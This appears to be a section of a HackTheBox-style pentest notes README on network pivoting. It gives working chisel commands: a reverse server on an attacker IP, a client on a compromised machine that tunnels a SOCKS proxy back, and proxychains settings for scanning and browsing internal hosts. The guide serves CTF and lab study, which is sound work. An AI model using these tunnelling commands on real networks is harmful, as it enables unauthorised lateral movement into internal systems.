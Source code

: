 ### Network Pivoting

![](https://miro.medium.com/max/700/1*exRPwGYJpGv6eESldShwzQ.png)
<p align="center">Image from Vickie Li's <a href="https://medium.com/swlh/proxying-like-a-pro-cccdc177b081">post</a></p>

**Summary:**
  - Network pivoting is the process of accessing an internal machine with the help of the compromised machine.
  - Connection lies between the compromised machine and the internal machine, and no direct connection will be available from the attacker machine to the internal machine
  - So in order to access the internal machine, we will make use of the compromised machine which has access to the internal machine

**Dynamic Port Forwarding:**
```bash
Dynamic Port Forwarding is the third major method of port redirection with SSH. 
Where as previously both local and remote port forwarding allowed interaction with a single port, 
dynamic allows a full range of TCP communication across a range of ports. 
The tool proxychains is also used to force any program you wish to use through the dynamic proxy.
```

**Requirements:** 
- To directly access the internal machine from the attacker machine, we can make the compromised machine as a proxy server and make all our requests to go via the compromised server to the internal machine
- To perform this we need an `ssh / chisel service` and `proxychains` in attacker machine
- If chisel is not available in the target machine, [chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.4) release page

**Procedure:**
- Transfer the `chisel` binary to the compromised machine
- On the Attacker machine:
```bash
# attacker IP: 192.168.1.1
# syntax: ./chisel server -p {port} --reverse
./chisel server -p 1337 --reverse
```
- On the compromised machine
```bash
# syntax: chisel client {attacker IP}:{port on chisel server} R:socks
./chisel client 192.168.1.1:1337 R:socks # on a debian based machine
chisel.exe client 192.168.1.1:1337 R:socks # on a windows machine
```
- On successful connection, the chisel server running on the attacker machine will pop the message
```bash
2021/01/15 17:11:47 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
- The message implies that the connection is made via a socks proxy on the port `1080` which is a default proxy for the chisel
- Add the following line in the `/etc/proxychains.conf`
```bash
socks5 127.0.0.1 1080
```
- Now Whenever a command is executed in the attacker machine with mentioning the proxychains, 
```bash
kali -> proxychains:1080 -> compromised_machine:1080 -> request for accessing from internal_machine -> internal_machine:80
```

![](https://github.com/cyberwr3nch/hackthebox/blob/master/scripts/files/Pivoting.jpg)
<p align="center">Image by <a href="https://github.com/cyberwr3nch">cyberwr3nch</a></p>


**Syntax:**
```bash
# nmap port scan
proxychains nmap -p22,80,8080,21,443,445 -sT internal_machinesIP

# opening internal_machine webserver
proxychains firefox internal_machinesIP:80
```

<h5>Thanks <a href="https://github.com/adithyan-ak">@adithyan-ak</a> for binding me in</h5>
